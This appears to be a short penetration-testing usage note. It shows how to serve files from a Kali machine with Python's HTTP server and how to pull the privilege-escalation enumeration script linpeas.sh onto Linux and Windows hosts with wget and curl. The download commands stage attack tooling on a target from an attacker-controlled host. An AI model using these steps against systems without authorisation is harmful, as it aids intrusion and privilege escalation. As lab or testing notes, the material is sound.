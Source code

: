 # Usage

## Host a simple HTTP server on Kali  
in /root/  
mkdir transfer  
python3 -m http.server 80  

Copy a file into this /root/transfer/ directory: linpeas.sh

## Linux client to get files from HTTP server
wget http://\<Kali IP address>/\<filename>
  * example: wget http://192.168.57.5/linpeas.sh

## Windows client to get files from HTTP server
curl http://\<Kali IP address>/\<filename>
  * example: curl http://192.168.57.5/linpeas.sh
